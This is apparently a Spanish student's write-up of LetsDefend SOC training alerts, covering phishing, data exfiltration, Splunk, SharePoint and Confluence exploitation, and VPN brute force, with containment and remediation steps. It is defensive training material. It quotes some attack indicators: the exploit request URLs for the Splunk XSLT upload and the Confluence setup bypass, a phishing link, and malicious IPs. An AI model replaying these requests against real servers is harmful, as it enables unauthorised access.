

# LET'S DEFEND

# ÍNDICE

[SOC251 — Quishing Detected (QR Code Phishing)](#1)

[SOC250 - APT35 HyperScrape Data Exfiltration Tool Detected](#2)

[SOC239 - Remote Code Execution Detected in Splunk Enterprise](#3)

[SOC227 - Microsoft SharePoint Server Elevation of Privilege - Possible CVE-2023-29357 Exploitation](#4)

[SOC235 - Atlassian Confluence Broken Access Control 0-Day CVE-2023-22515](#5)

[SOC210 - Possible Brute Force Detected on VPN](#6)

[SOC202 - FakeGPT Malicious Chrome Extension](#7)

[SOC175 - PowerShell Found in Requested URL - Possible CVE-2022-41082 Exploitation](#8)

[SOC164 - Suspicious Mshta Behavior](#9)

[SOC163 - Suspicious Certutil.exe Usage](#10)

## **SOC251 — Quishing Detected (QR Code Phishing)** <a name="1"></a>


## **Datos de la alerta:**

**EventID :** 214

**Event Time :** Jan, 01, 2024, 12:37 PM

**Rule :** SOC251 — Quishing Detected (QR Code Phishing)

**Level :** Security Analyst

**SMTP Address :** 158.69.201.47

**Source Address :** security@microsecmfa.com

**Destination Address :** Claire@letsdefend.io

**E-mail Subject :** New Year’s Mandatory Security Update: Implementing Multi-Factor Authentication (MFA)

**Device Action :** Allowed

Tipo según taxonomía: Phishing (Quishing Detected)

Criticidad: Media

Descripción del incidente: El incidente ocurrió el 1 de enero de 2024 a las 12:37 PM. Fue detectado por la regla SOC251 que identifica actividades sospechosas relacionadas con el phishing de códigos QR. El evento involucra un correo electrónico con el asunto "New Year’s Mandatory Security Update: Implementing Multi-Factor Authentication (MFA)" enviado desde la dirección de correo electrónico security@microsecmfa.com hacia Claire@letsdefend.io. A pesar de que el dispositivo permitió la acción, se identificó un potencial riesgo de phishing.

En primer lugar, verificaremos el contenido del correo electrónico anterior para ver e investigar el código QR que se detectó como malicioso.

Comprobamos la dirección IP de la dirección SMTP 158.69.201.47


Realicemos una búsqueda por remitente para poder ver si hubo varios correos electrónicos de este remitente.


"Solamente existe un correo electrónico proveniente de este remitente, y es el mencionado en la alerta. Se permitió su entrega al usuario."


No hay enlaces web en el mensaje, así que debemos prestar atención al código QR adjunto. Después de descargar y escanear el código QR, obtenemos una URL. 

Para analizar el código QR, podemos usar CyberChef en esta dirección: [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/)


```jsx
https://ipfs.io/ipfs/Qmbr8wmr41C35c3K2GfiP2F8YGzLhYpKpb4K66KU6mLmL4#
```

Ahora vamos a verificar la URL en VirusTotal.


Dado que confirmamos que la URL es maliciosa y corresponde a una página falsa de inicio de sesión de Microsoft, regresemos a la vista del correo electrónico en LetsDefend y eliminémoslo de la bandeja de entrada del usuario para evitar posibles daños.


Ahora que hemos eliminado el correo electrónico y confirmado que la URL en el código QR es peligrosa, debemos verificar si el usuario accedió a ella. 

Vamos a Endpoints Security para revisar la dirección IP de "Claire".


Claire IP: 172.16.17.181

Vamos a dirigirnos a Gestión de Registros y buscar con la dirección IP de Claire.


Podemos buscar si algún dispositivo, posiblemente móvil, en la red accedió a la URL mediante la búsqueda de la dirección IP de origen en la gestión de registros.


209.94.90.1

Vamos a dirigirnos a la gestión de registros.


No hay registros relacionados con esa dirección IP, y los códigos QR suelen escanearse con teléfonos. Volvamos a la seguridad de los puntos finales y aislemos el equipo para evitar que cualquier actividad maliciosa afecte al sistema si el usuario accedió a la URL peligrosa.


Recurriremos a los Playbook para seguir adelante:

Este phishing tiene como objetivo confirmar las credenciales.


El remitente del correo electrónico es externo/la URL del código QR es externa.


Hemos comprobado previamente que la IP es maliciosa en Virustotal


Verificamos si alguien más recibió este correo electrónico y "Claire" fue el único usuario afectado.


Ya contuvimos al anfitrión.


Artifacts:


Con esto terminaríamos


Durante la resolución del incidente ¿has tenido que realizar algún tipo de actuación para el restableciciomiento de servicios afectados por el incidente, con el objetivo de volver a la normalidad?
No, solo contener el equipo

Tras trabajar en la resolución del incidente ¿Que acciones/actuaciones destacadas se han realizado para solucionar el incidente? Realizar un proceso de análisis de las actuaciones llevadas a cabo y obtener un registro de lecciones aprendidas, para finalmente concluir en las posibles mejoras que podrías plantear para tu plan/playbooks desarrollado en la práctica anterior.

Comprobación de artifacts para saber si son maliciosos en Virustotal

Busqueda de correos sospechosos y su posterior eliminación

Decodificación de un Qr

Contención del dispositivo

No implementaria ninguna mejora ya que el mio es más completo.


Seguro que en el proceso de análisis para obtener un registro de lecciones aprendidas anterior, has pensado como evitar que una situación similar se vuelva a repetir. ¿Que actuaciones has decidido para evitar que se pueda dar una situación similar?

- Bloqueo de la dirección IP: Se puede bloquear la dirección IP de origen (158.69.201.47) en los sistemas de firewall y filtrado de correo electrónico para evitar futuros intentos de phishing desde esa dirección.

- Capacitación del personal: Proporcionar capacitación continua sobre concienciación en seguridad a todos los empleados, especialmente en lo que respecta a la identificación de correos electrónicos de phishing y cómo manejarlos adecuadamente.

- Implementación de filtros de correo electrónico avanzados: Configurar y mejorar los filtros de correo electrónico para identificar y bloquear automáticamente mensajes sospechosos que contengan enlaces o archivos adjuntos maliciosos.

- Actualización de software y sistemas: Mantener actualizados todos los sistemas y software con las últimas parches de seguridad y actualizaciones, lo que puede ayudar a mitigar las vulnerabilidades que los atacantes podrían explotar.

- Implementación de autenticación multifactor (MFA): Implementar MFA en todos los sistemas y servicios críticos para agregar una capa adicional de seguridad que dificulte a los atacantes acceder a las cuentas incluso si obtienen credenciales de inicio de sesión.
  
- Monitoreo continuo de la red: Establecer un sistema de monitoreo de seguridad que pueda detectar actividades sospechosas o anómalas en tiempo real, lo que permite una respuesta rápida ante posibles amenazas.

- Auditoría y revisión de políticas de seguridad: Realizar auditorías periódicas de las políticas de seguridad de la organización para identificar áreas de mejora y garantizar que estén alineadas con las mejores prácticas de seguridad cibernética.

- Colaboración con proveedores de servicios de seguridad: Trabajar con proveedores de servicios de seguridad externos para obtener información sobre las últimas amenazas y tácticas utilizadas por los atacantes, lo que puede ayudar a fortalecer las defensas de la organización.


## SOC250 - APT35 HyperScrape Data Exfiltration Tool Detected <a name="2"></a>

Tipo según taxonomía: Exfiltración de datos (APTX35 HyperScrape Data Exfiltration Tool Detected)

Criticidad: Media

Descripción del incidente: El incidente ocurrió el 27 de diciembre de 2023 a las 11:22 AM. Fue detectado por la regla SOC250 que identifica la actividad de una herramienta de exfiltración de datos conocida como APTX35 HyperScrape. El evento involucra el proceso "EmailDownloader.exe" ejecutándose en el sistema host "Arthur" con la dirección IP 172.16.17.72. El proceso se inició desde la ruta "C:\Users\LetsDefend\Downloads\EmailDownloader.exe" y su proceso padre fue "C:\Windows\Explorer.EXE". A pesar de que el dispositivo permitió la acción, se identificaron patrones de comportamiento inusual o sospechoso vinculados al hash del archivo, lo que indica un posible intento de exfiltración de datos.


Esta alerta está relacionada la herramienta llamada HYPERSCRAPE que se usa para robar datos de usuarios de cuentas de Gmail, Yahoo! y Microsoft Outlook.

Empezaremos con el playbook en sí:


A continuación se muestra la información que nos han facilitado:

**IP Address :** 172.16.17.72

**Hostname :** Arthur

**Process Name :** EmailDownloader.exe

Pasaremos a recolectar datos:

Revisemos la página Administración de registros para ver si hay un registro para la alerta


Tenemos registros asociados con la dirección IP de nuestro equipo.


Ahora deberíamos ver el apartado Endpoint del Arthur.


Aquí vemos la descarga de .exe


como se menciona antes, la herramienta HYPERSCRAPE se utiliza para robar datos del usuario.


Como vemos la IP es externa: 136.243.108.14


Buscamos las direcciones IP en la página de Virustotal y de información sobre amenazas y resultó ser externa y maliciosa:


Revisamos en Endpoitn Security, Log Management y en Email Security y solo fue Arthur el afectado.


Como el ataque fue exitoso, aislamos el dispositivo


Con esto daríamos por concluido el playbook.


Durante la resolución del incidente ¿has tenido que realizar algún tipo de actuación para el restableciciomiento de servicios afectados por el incidente, con el objetivo de volver a la normalidad?
No

Tras trabajar en la resolución del incidente ¿Que acciones/actuaciones destacadas se han realizado para solucionar el incidente? Realizar un proceso de análisis de las actuaciones llevadas a cabo y obtener un registro de lecciones aprendidas, para finalmente concluir en las posibles mejoras que podrías plantear para tu plan/playbooks desarrollado en la práctica anterior.

Comprobación de artifacts para saber si son maliciosos en Virustotal

Busqueda de registros con la direeción IP del equipo

Contención del dispositivo

No implementaria ninguna mejora ya que el mio es más completo.

Seguro que en el proceso de análisis para obtener un registro de lecciones aprendidas anterior, has pensado como evitar que una situación similar se vuelva a repetir. ¿Que actuaciones has decidido para evitar que se pueda dar una situación similar?

Para remediar este ataque de exfiltración de datos detectado, se pueden implementar una serie de medidas técnicas y organizativas:

- Remoción del archivo malicioso: Eliminar el archivo "EmailDownloader.exe" y cualquier otro archivo relacionado con la herramienta de exfiltración de datos identificada (APTX35 HyperScrape) de todos los sistemas comprometidos.

- Investigación forense: Realizar una investigación forense exhaustiva para determinar la extensión del compromiso, identificar los datos exfiltrados y comprender cómo el atacante logró infiltrarse en el sistema.

- Parches y actualizaciones: Aplicar todas las actualizaciones de seguridad y parches disponibles para el sistema operativo, aplicaciones y software relacionado para cerrar posibles vulnerabilidades que podrían haber sido explotadas por el atacante.

- Análisis de vulnerabilidades: Realizar un análisis de vulnerabilidades en la red y sistemas afectados para identificar y remediar cualquier brecha de seguridad que haya permitido al atacante acceder al sistema.

- Fortalecimiento de políticas de seguridad: Revisar y fortalecer las políticas de seguridad de la organización, incluyendo políticas de acceso, autenticación, cifrado de datos y monitoreo de la red, para prevenir futuros incidentes de exfiltración de datos.
  
- Implementación de monitoreo continuo: Establecer sistemas de monitoreo de seguridad continuo que puedan detectar actividades sospechosas o anómalas en tiempo real, lo que permite una respuesta rápida ante posibles amenazas.
  
- Capacitación del personal: Proporcionar capacitación regular en concienciación en seguridad a todos los empleados para que estén al tanto de las tácticas de ataque comunes, incluyendo la ingeniería social y la exfiltración de datos, y sepan cómo responder adecuadamente.
  
- Colaboración con proveedores de seguridad: Trabajar con proveedores de servicios de seguridad externos para obtener asesoramiento y asistencia en la mejora de la postura de seguridad cibernética de la organización.
  
- Implementación de controles de acceso: Reforzar los controles de acceso para restringir el acceso a datos sensibles y críticos solo a usuarios autorizados, utilizando técnicas como el principio de menor privilegio y la autenticación multifactor.
  
- Auditoría y revisión continua: Realizar auditorías regulares de seguridad y revisiones de incidentes para identificar áreas de mejora y garantizar que las medidas de seguridad implementadas sean efectivas y estén actualizadas.


## SOC239 - Remote Code Execution Detected in Splunk Enterprise <a name="3"></a>

Tipo según taxonomía: Ejecución remota de código (Remote Code Execution)

Criticidad: Alta

Descripción del incidente: El incidente ocurrió el 21 de noviembre de 2023 a las 12:24 PM. Fue detectado por la regla SOC239 que identifica la ejecución remota de código en Splunk Enterprise. La actividad sospechosa implicó una solicitud HTTP POST desde la dirección IP de origen 180.101.88.240 hacia el servidor Splunk Enterprise ubicado en la dirección IP de destino 172.16.20.13. La solicitud tenía como objetivo cargar un archivo XSLT malicioso denominado "shell.xsl" a través de la URL http://18.219.80.54:8000/en-US/splunkd/__upload/indexing/preview?output_mode=json&props.NO_BINARY_CHECK=1&input.path=shell.xsl. A pesar de que el dispositivo permitió la acción, se detectó que el archivo tenía el potencial de desencadenar la ejecución remota de código en Splunk Enterprise.


Esta alerta es sobre **CVE-2023–46214** . La vulnerabilidad se debe a que las versiones **de Splunk Enterprise** inferiores **a 9.0.7** y **9.1.2 no desinfectan de forma segura las transformaciones de lenguaje de hojas de estilos extensibles ( XSLT** ) proporcionadas por el usuario . Esto significa que un atacante puede cargar XSLT malicioso que puede resultar en la ejecución remota de código (RCE) en la instancia de Splunk Enterprise.

Primero, comencemos creando un playbook.


**Source IP Address :** 180.101.88.240

**Destination IP Address :** 172.16.20.13

**Source port :** 54321

**Destination port :** 8000

**Hostname :** Splunk Enterprise

**Requested URL :** [http://18.219.80.54:8000/en-US/splunkd/__upload/indexing/preview?output_mode=json&props.NO_BINARY_CHECK=1&input.path=shell.xsl](http://18.219.80.54:8000/en-US/splunkd/__upload/indexing/preview?output_mode=json&props.NO_BINARY_CHECK=1&input.path=shell.xsl)

Primero, busco la dirección 180.101.88.240 en **Virustotal. En donde comprobamos que es maliciosa**


Y también revisé Gestión de registros y encontré el siguiente registro.


Según los resultados que obtuvimos de los registros de Virustotal, podemos decir que el tráfico es **malicioso** .


Tenemos el archivo shell.zip que lo investigamos. Lo descomprimí y me dio dos archivos como los siguientes: archivo **script(.sh)** y . archivo **xsl** :


Según lo observado, parece que este código representa un intento de ataque de inyección de entidad externa XML (XXE) en lugar de una transformación XSLT legítima.

Basándonos en la información proporcionada, podemos concluir que este archivo ejecuta un ataque de inyección XML.


He buscado artifacts asociados a la alerta como la IP de origen, la IP de destino o el nombre del servidor, pero no parece haber nada conectado.


La dirección de origen 180.101.88.240 de la alerta está ubicada en la red externa de una empresa china. Sin embargo, la dirección de destino 172.16.20.13 es interna, perteneciente a Splunk Enterprise.


Vemos que la acción del dispositivo está ”allowed” , por lo tanto, el ataque fue exitoso.


El dispositivo debe estar aislado para restringir al atacante y por lo tanto contenemos el dispositivo relevante


Artifacts


Como descubrimos que el ataque fue exitoso, un analista más experimentado **necesita una escalada de nivel 2**


Con esto concluimos el playbook.


Durante la resolución del incidente ¿has tenido que realizar algún tipo de actuación para el restableciciomiento de servicios afectados por el incidente, con el objetivo de volver a la normalidad?
No

Tras trabajar en la resolución del incidente ¿Que acciones/actuaciones destacadas se han realizado para solucionar el incidente? Realizar un proceso de análisis de las actuaciones llevadas a cabo y obtener un registro de lecciones aprendidas, para finalmente concluir en las posibles mejoras que podrías plantear para tu plan/playbooks desarrollado en la práctica anterior.

Comprobación de artifacts para saber si son maliciosos en Virustotal

Analisis de archivos malicioso

Contención del dispositivo

Busqueda de registros


No tengo ningun playbook de una ejecucion de código remoto.

Seguro que en el proceso de análisis para obtener un registro de lecciones aprendidas anterior, has pensado como evitar que una situación similar se vuelva a repetir. ¿Que actuaciones has decidido para evitar que se pueda dar una situación similar?

- Actualización y parcheo del sistema: Asegúrate de que Splunk Enterprise esté actualizado con los últimos parches de seguridad y actualizaciones proporcionadas por el proveedor. Esto ayudará a cerrar las vulnerabilidades conocidas que podrían ser explotadas por los atacantes.

- Restricción de acceso: Limita el acceso al servidor Splunk Enterprise solo a usuarios autorizados y establece políticas de acceso basadas en el principio de menor privilegio. Esto reduce la superficie de ataque y evita que usuarios no autorizados ejecuten código malicioso en el sistema.

- Seguridad de red: Implementa medidas de seguridad de red, como firewalls, para filtrar y bloquear el tráfico no autorizado hacia y desde el servidor Splunk Enterprise. Esto puede ayudar a prevenir que los atacantes exploren y exploten vulnerabilidades en el sistema.

- Monitoreo de seguridad: Establece un sistema de monitoreo continuo de la actividad del servidor Splunk Enterprise para detectar y responder rápidamente a cualquier actividad sospechosa o intentos de intrusión.

- Filtrado de archivos: Configura Splunk Enterprise para filtrar y bloquear la carga de archivos con extensiones potencialmente peligrosas, como archivos XSLT, que puedan ser utilizados para la ejecución remota de código.

- Auditoría y registro: Implementa un sistema de auditoría y registro robusto para registrar todas las actividades en el servidor Splunk Enterprise, lo que facilita la detección de comportamientos anómalos y la investigación de incidentes.

- Capacitación del personal: Proporciona capacitación regular en concienciación en seguridad a todo el personal que interactúe con el servidor Splunk Enterprise para que estén al tanto de las últimas amenazas y sepan cómo evitar caer en trampas como la ejecución remota de código.

- Análisis forense: Desarrolla un plan de respuesta a incidentes que incluya procedimientos para realizar análisis forenses en caso de una violación de seguridad, lo que facilitará la identificación de la causa raíz del incidente y la implementación de medidas correctivas.


## SOC227 - Microsoft SharePoint Server Elevation of Privilege - Possible CVE-2023-29357 Exploitation <a name="4"></a>


Tipo según taxonomía: Elevación de privilegios (Elevation of Privilege)

Criticidad: Alta

Descripción del incidente: El incidente ocurrió el 6 de octubre de 2023 a las 08:05 PM. Fue detectado por la regla SOC227 que identifica intentos de explotar la vulnerabilidad CVE-2023-29357 en Microsoft SharePoint Server. La actividad sospechosa implicó una solicitud HTTP GET desde la dirección IP de origen 39.91.166.222 hacia el servidor SharePoint ubicado en la dirección IP de destino 172.16.17.233. La solicitud tenía como objetivo acceder a la API "_api/web/siteusers" del servidor SharePoint. A pesar de que el dispositivo permitió la acción, se detectó el posible intento de explotar la vulnerabilidad CVE-2023-29357, lo que podría conducir a acceso no autorizado y elevación de privilegios dentro del servidor SharePoint.

La vulnerabilidad CVE-2023–29357 es una vulnerabilidad crítica de escalada de privilegios que, cuando se combina con otras vulnerabilidades, podría conducir a la ejecución remota de código. Una puntuación CVSS de 9,8 (crítico) an.

Primero, comencemos creando un playbook:


Como se muestra arriba, necesitamos recopilar direcciones IP, la dirección del tráfico, el nombre de host, etc.

**Dirección IP de origen:** 39.91.166.222

**Dirección IP de destino:** 172.16.17.233

**Nombre de host:** MS-SharePointServer

**URL solicitada:** /_api/web/siteusers

Primero, busco la dirección 39.91.166.222 en **Virustotal. La dirección IP es maliciosa**


Luego revisamos la pantalla de Administración de registros y encontramos los siguientes registros.


Según los resultados que obtuvimos de Virustotal y los registros, podemos decir que el tráfico es malicioso**.**


El tipo de ataque que estamos investigando no pertenece a ninguno de los anteriores.


He buscado artifacts asociados a la alerta como la IP de origen, la IP de destino o el nombre del servidor, pero no parece haber nada conectado.


La dirección de origen 39.91.166.222 de la alerta pertenece a la red externa de la empresa. Pero 172.16.17.233 es la dirección de destino interna


El ataque fue **exitoso** porque descubrí que el atacante accedió a las URL /currentuser y /siteusers del sitio.


Como se muestra abajo, el dispositivo debe estar aislado para restringir al atacante y, por lo tanto, contenemos el dispositivo correspondiente.


Como descubrimos que el ataque tuvo éxito, un analista más experimentado necesitamos una escalada de nivel 2 


Con esto concluimos el playbook.


Durante la resolución del incidente ¿has tenido que realizar algún tipo de actuación para el restableciciomiento de servicios afectados por el incidente, con el objetivo de volver a la normalidad?
No

Tras trabajar en la resolución del incidente ¿Que acciones/actuaciones destacadas se han realizado para solucionar el incidente? Realizar un proceso de análisis de las actuaciones llevadas a cabo y obtener un registro de lecciones aprendidas, para finalmente concluir en las posibles mejoras que podrías plantear para tu plan/playbooks desarrollado en la práctica anterior.

Comprobación de artifacts para saber si son maliciosos en Virustotal
Contención del dispositivo
Busqueda de registros y logs
Escalado a lvl 2.

No tengo ningun playbook de elevación de privilegios.

Seguro que en el proceso de análisis para obtener un registro de lecciones aprendidas anterior, has pensado como evitar que una situación similar se vuelva a repetir. ¿Que actuaciones has decidido para evitar que se pueda dar una situación similar?

- Aplicación de parches y actualizaciones de seguridad: Instala de inmediato los parches de seguridad proporcionados por Microsoft para corregir la vulnerabilidad CVE-2023-29357. Mantén el servidor SharePoint y todos los componentes relacionados actualizados con las últimas actualizaciones de seguridad para mitigar el riesgo de explotación de vulnerabilidades conocidas.

- Análisis de vulnerabilidades: Realiza análisis de vulnerabilidades periódicos en el servidor SharePoint para identificar y remediar cualquier vulnerabilidad conocida que pueda ser aprovechada por los atacantes. Utiliza herramientas de escaneo de vulnerabilidades para detectar posibles debilidades en la configuración y el software del servidor.

- Control de acceso y privilegios: Revisa y actualiza los permisos de acceso en SharePoint para asegurarte de que solo los usuarios autorizados tengan acceso a recursos y datos sensibles. Aplica el principio de menor privilegio para limitar los privilegios de los usuarios y reducir el impacto de posibles brechas de seguridad.

- Monitoreo de la actividad del servidor: Implementa sistemas de monitoreo de seguridad que puedan detectar y alertar sobre actividades sospechosas en el servidor SharePoint, como intentos de acceso no autorizado o cambios en la configuración del sistema. Utiliza registros de eventos y herramientas de análisis de seguridad para investigar y responder rápidamente a incidentes.

- Capacitación del personal: Proporciona capacitación regular en seguridad informática a los administradores de sistemas y usuarios finales que interactúan con el servidor SharePoint. Educa a los usuarios sobre las prácticas recomendadas de seguridad, como la creación de contraseñas seguras y la identificación de correos electrónicos de phishing.

- Auditoría de seguridad: Realiza auditorías periódicas de seguridad en el servidor SharePoint para evaluar el cumplimiento de las políticas de seguridad y identificar posibles áreas de mejora. Revisa los registros de auditoría y los informes de seguridad para identificar actividades sospechosas o anómalas.

 -Implementación de firewalls y filtrado de tráfico: Configura firewalls y sistemas de filtrado de tráfico para bloquear el tráfico no autorizado hacia el servidor SharePoint. Utiliza listas blancas para permitir únicamente el acceso desde direcciones IP y rangos de IP confiables.

- Plan de respuesta a incidentes: Desarrolla y prueba un plan de respuesta a incidentes que incluya procedimientos detallados para la detección, investigación y mitigación de posibles ataques contra el servidor SharePoint. Capacita al personal sobre cómo responder adecuadamente a incidentes de seguridad y minimizar el impacto en la organización.


## SOC235 - Atlassian Confluence Broken Access Control 0-Day CVE-2023-22515 <a name="5"></a>


Tipo según taxonomía: Control de acceso roto (Broken Access Control)

Criticidad: Crítica

Descripción del incidente: El incidente ocurrió el 8 de noviembre de 2023 a las 09:47 AM. Fue detectado por la regla SOC235 que identifica intentos de explotar la vulnerabilidad 0-Day CVE-2023-22515 en Atlassian Confluence. La actividad sospechosa implicó una solicitud HTTP GET desde la dirección IP de origen 43.130.1.222 hacia el servidor Confluence Data Center ubicado en la dirección IP de destino 172.16.17.234. La solicitud tenía como objetivo acceder a la URL "/server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=false", lo que podría potencialmente permitir la creación de un nuevo usuario administrador en el sistema. A pesar de que el dispositivo permitió la acción, se detectó el intento de explotación de la vulnerabilidad CVE-2023-22515.

CVE-2023–22515 representa una amenaza de seguridad crítica para las instancias de Atlassian Confluence, ya que permite que atacantes maliciosos obtengan acceso no autorizado. Esta vulnerabilidad permite a los atacantes crear cuentas de administrador de Confluence sin la autorización adecuada, lo que puede comprometer los sistemas de las víctimas.

Empezaremos con el playbook:


Recopilación de datos:

**Source Ip Address:** 43.130.1.222

**Destination Ip Address:** 172.16.17.234

**Requested URL:** /server-info.action bootstrapStatusProvider.applicationConfig.setupComplete=false

**Hostname :** Confluence Data Center v8.0.3

Buscamos la dirección de origen, 43.130.1.222, en Virustotal. El resultado muestra que la dirección IP es maliciosa.


El siguiente paso es examinar el tráfico HTTP. Después de especificar la IP de origen como **43.130.1.222** y la IP de destino como **172.16.17.234** en Gestión de registros, verifiqué los resultados y encontré tres registros.


Entonces, podemos ver que el código de estado HTTP para la URL solicitada que se mencionó anteriormente "/serverinfo.actionbootstrapStatusProvider.applicationConfig.setupComplete=false" es 200, lo que significa que fue exitoso.


Los resultados obtenidos confirman que el tráfico es malicioso.


Según los resultados de la investigación, ninguno de los tipos de ataque especificados se alinea con el escenario en cuestión. Por lo tanto, se toma la decisión de elegir la categoría 'Other'.


Busqué elementos anteriores como IP de origen, IP de destino, nombre del servidor en Email Security, no hay nada interesante.


La IP de origen, 43.130.1.222, corresponde a la dirección IP pública de una empresa externa, mientras que la IP de destino, 172.16.17.234, pertenece a un host dentro de la red privada de la empresa.


Podemos ver que la **acción del dispositivo** es **"Allowed",** lo que significa que el dispositivo no tomó ninguna medida para prevenir o bloquear las actividades asociadas. Además de eso, el código de estado HTTP para la URL solicitada (/server-info.actionbootstrapStatusProvider.applicationConfig.setupComplete=false) es 200.


Como se indica arriba de la imagen, la contención implica aislar y limitar rápidamente las consecuencias de una amenaza identificada, detener su propagación y mejorar la seguridad general del sistema. Por lo tanto, es necesario aislar el dispositivo comprometido. La dirección IP del dispositivo comprometido es 172.16.17.234. Procedamos a aislar este dispositivo en particular.


En esta situación, escalar al Nivel 2 es crucial ya que poseen la experiencia para realizar una investigación más profunda sobre el ataque exitoso y responder con mayor efectividad.


Con esto concluimos el playbook.


Durante la resolución del incidente ¿has tenido que realizar algún tipo de actuación para el restableciciomiento de servicios afectados por el incidente, con el objetivo de volver a la normalidad?
No

Tras trabajar en la resolución del incidente ¿Que acciones/actuaciones destacadas se han realizado para solucionar el incidente? Realizar un proceso de análisis de las actuaciones llevadas a cabo y obtener un registro de lecciones aprendidas, para finalmente concluir en las posibles mejoras que podrías plantear para tu plan/playbooks desarrollado en la práctica anterior.

Comprobación de artifacts para saber si son maliciosos en Virustotal
Contención del dispositivo
Busqueda de registros y logs
Escalada a lvl 2

No tengo ningun playbook de control de acceso roto

Seguro que en el proceso de análisis para obtener un registro de lecciones aprendidas anterior, has pensado como evitar que una situación similar se vuelva a repetir. ¿Que actuaciones has decidido para evitar que se pueda dar una situación similar?

Aplicación de parches y actualizaciones: Instala de inmediato los parches de seguridad proporcionados por Atlassian para corregir la vulnerabilidad CVE-2023-22515. Asegúrate de mantener Confluence actualizado con las últimas actualizaciones de seguridad para mitigar el riesgo de explotación de vulnerabilidades conocidas.

- Restricción de acceso: Limita el acceso a las funciones y URL sensibles de Confluence solo a usuarios autorizados. Revisa y actualiza las políticas de acceso y los permisos de usuario para asegurarte de que solo los usuarios necesarios tengan privilegios para crear o modificar usuarios administradores.

- Monitoreo de la actividad del servidor: Implementa sistemas de monitoreo de seguridad que puedan detectar y alertar sobre actividades sospechosas en Confluence, como intentos de acceso no autorizado o cambios en los permisos de usuario. Monitorea los registros de auditoría y los registros del sistema para identificar posibles indicadores de compromiso.

- Capacitación del personal: Proporciona capacitación regular en seguridad informática a los administradores de sistemas y usuarios finales que interactúan con Confluence. Educa a los usuarios sobre las prácticas recomendadas de seguridad, como el manejo seguro de contraseñas y la identificación de posibles ataques de phishing.

- Revisión de configuraciones de seguridad: Revisa y actualiza las configuraciones de seguridad de Confluence para asegurarte de que estén alineadas con las mejores prácticas de seguridad. Considera la implementación de medidas adicionales, como la autenticación de dos factores, para agregar una capa adicional de seguridad.

- Auditoría de seguridad: Realiza auditorías periódicas de seguridad en Confluence para evaluar el cumplimiento de las políticas de seguridad y identificar posibles áreas de mejora. Revisa los registros de auditoría y los informes de seguridad para identificar actividades sospechosas o cambios no autorizados en la configuración del sistema.

- Actualización de herramientas de seguridad: Asegúrate de que todas las herramientas de seguridad utilizadas para proteger Confluence estén actualizadas y configuradas correctamente. Esto incluye firewalls, sistemas de detección de intrusiones y soluciones antivirus.

- Plan de respuesta a incidentes: Desarrolla y prueba un plan de respuesta a incidentes que incluya procedimientos detallados para la detección, investigación y mitigación de posibles ataques contra Confluence. Capacita al personal sobre cómo responder adecuadamente a incidentes de seguridad y minimizar el impacto en la organización.


## SOC210 - Possible Brute Force Detected on VPN <a name="6"></a>


Tipo según taxonomía: Intento de fuerza bruta (Brute Force)

Criticidad: Alta

Descripción del incidente: El incidente ocurrió el 21 de junio de 2023 a las 01:51 PM. Fue detectado por la regla SOC210, que identifica posibles intentos de fuerza bruta en la autenticación VPN. La actividad sospechosa involucró múltiples intentos de inicio de sesión fallidos desde la dirección IP de origen 37.19.221.229 en el servidor VPN con destino al host denominado "Mane". El nombre de usuario "mane@letsdefend.io" fue uno de los objetivos de estos intentos de inicio de sesión. Después de varios intentos fallidos, se registró un inicio de sesión exitoso desde la misma dirección IP, lo que aumentó la sospecha de un intento de fuerza bruta exitoso.

Comencemos con un análisis inicial:

Verificaremos la dirección IP de origen en la administración de registros


Los dos registros anteriores se generaron uno tras otro e incluso antes de estos dos, hubo muchos intentos de inicio de sesión para conectarse a la VPN que involucraban nombres de usuario incorrectos. Entonces, esto definitivamente indica un ataque de fuerza bruta, ya que hubo un intento de inicio de sesión exitoso después de varios intentos fallidos.


Ahora buscaremos al usuario Mane en el EndPiont Security para ver si hubo procesos sospechosos, actividades de red o historial de comandos.


Se termino concluyendo ninguna de las actividades del sistema ocurrió después de que se generó la alerta, es decir, después de que el inicio de sesión fue exitoso.

Consiguiente buscaremos la ip de origen en Virustotal y en AbuseIPDB.


Está marcada como maliciosa y también clasificada en la categoría de fuerza bruta.

Una vez hecho esto empezaremos el playbook:

Si buscamos la dirección IP de origen en EPS, no encontramos ningún dispositivo asociado a ella


Como hemos visto en la busqueda en Virustotal la IP es sospechosa.


Si recibio solicitudes de la dirección IP atacante.


Según nuestro análisis inicial de la gestión de registros, podemos decir que el ataque fue exitoso*.*


Como el intento de inicio de sesión fue exitoso, necesitamos contener el dispositivo


Artifacts:


Con esto concluimos el playbook


Durante la resolución del incidente ¿has tenido que realizar algún tipo de actuación para el restableciciomiento de servicios afectados por el incidente, con el objetivo de volver a la normalidad?
No

Tras trabajar en la resolución del incidente ¿Que acciones/actuaciones destacadas se han realizado para solucionar el incidente? Realizar un proceso de análisis de las actuaciones llevadas a cabo y obtener un registro de lecciones aprendidas, para finalmente concluir en las posibles mejoras que podrías plantear para tu plan/playbooks desarrollado en la práctica anterior.

Comprobación de artifacts para saber si son maliciosos en Virustotal
Contención del dispositivo
Busqueda de registros y logs

Implementación virus total.

Seguro que en el proceso de análisis para obtener un registro de lecciones aprendidas anterior, has pensado como evitar que una situación similar se vuelva a repetir. ¿Que actuaciones has decidido para evitar que se pueda dar una situación similar?

- Bloqueo de direcciones IP: Bloquea la dirección IP específica desde la cual se originaron los intentos de fuerza bruta en el servidor VPN. Esto evitará que el atacante continúe intentando acceder al sistema desde esa dirección IP.

- Implementación de medidas de seguridad adicionales: Refuerza la seguridad del servidor VPN mediante la implementación de medidas adicionales, como la autenticación multifactor (MFA) o el uso de listas blancas de direcciones IP permitidas para acceder al sistema.

